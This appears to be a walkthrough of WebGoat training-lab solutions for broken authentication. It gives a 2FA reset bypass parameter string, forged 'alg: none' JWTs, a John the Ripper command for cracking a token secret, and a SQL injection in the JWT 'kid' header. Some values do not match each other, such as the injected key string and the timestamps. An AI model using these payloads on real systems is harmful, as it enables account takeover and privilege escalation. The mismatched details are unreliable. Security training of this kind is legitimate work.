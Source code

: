 # Broken Authentication

## Authentication Bypasses

2FA Password Reset

`secQuestion0[]=name1&secQuestion1[]=name2&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746`

## JWT Tokens

### Decoding a JWT token

Put token to [jwt.io](https://jwt.io) to decode it and get the user.

### JWT signing

Checking the reset votes function, we see that only admin can do that. Login as Tom and get the JWT token from cookies:
`eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2NDA0NDUxOTAsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.Iiv_jzi_5KZfT_jNiWCb8KJGwAH-Y56rQlikaH_dmKFvDF2tUqUvevbkWl9Z67TMl5iS2cnMMu4dYoOr713qBw`
Decode the token:

```JSON
Header:
{
  "alg": "HS512"
}

Payload:
{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}

Signature:
dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

Change "alg" to "none" and "admin" to "true" to remove the signature and pass the condition.

```JSON
Header:
{
  "alg": "none"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
```

Encode to Base64 and concatenate to submit the new token to the server.
`ewogICJhbGciOiAibm9uZSIKfQ.ewogICJpYXQiOiAxNjQwNDQ1MTkwLAogICJhZG1pbiI6ICJ0cnVlIiwKICAidXNlciI6ICJUb20iCn0.`

### JWT cracking

Brute force signature, change the payload, sign again and submit it.
i'm using john the ripper: `john jwt.txt --wordlist=rockyou.txt --format=HMAC-SHA256`.

### Refreshing a token

We can solve by taking Tom's token from log, encode and change the exp time in the payload and alg to "none" in the header of the token, decode each part, concatenate it and submit the new token in "Authorization" header.
New token: `eyJhbGciOiJub25lIn0.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTY4Njc2NTgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.`

### Final challenge

Decoding JWT from deleleting Tom's account action, we can see some information:

```JSON
Header:
{
  "typ": "JWT",
  "kid": "webgoat_key",
  "alg": "HS256"
}

Payload:
{
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Jerry",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```

In token's header, we can see `kid` (key ID).
Reference:
-`https://stackoverflow.com/questions/43867440/whats-the-meaning-of-the-kid-claim-in-a-jwt-token`
-`https://self-issued.info/docs/draft-jones-json-web-token-01.html#ReservedHeaderParameterName`

So, we can try with SQL injection to change the key ID to, for example, `something`.

```JSON
Header:
{
  "typ": "JWT",
  "kid": "webgoat_key' UNION SELECT 'bXlrZXk=' FROM INFORMATION_SCHEMA.TABLES -- ",
  "alg": "HS256"
}
```

- `c29tZXRoaW5n` is `something` encoded in Base64
- `INFORMATION_SCHEMA.TABLES` is just a  table we know that exists, to return valid query

```JSON
Payload:
{
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Tom",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```

- Change username to `Tom`

And finally, sign with `something`:

```JWT
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleScgVU5JT04gU0VMRUNUICdjMjl0WlhSb2FXNW4nIEZST00gSU5GT1JNQVRJT05fU0NIRU1BLlRBQkxFUyAtLSAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTk5OTk5OTk5OSwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiVG9tIiwiRW1haWwiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiQ2F0Il19.pumbmEnQdqHju1kM4NwVz6BUpQSj9Snn1hM58UYnZ8E
```

Changing request with new token and send again.
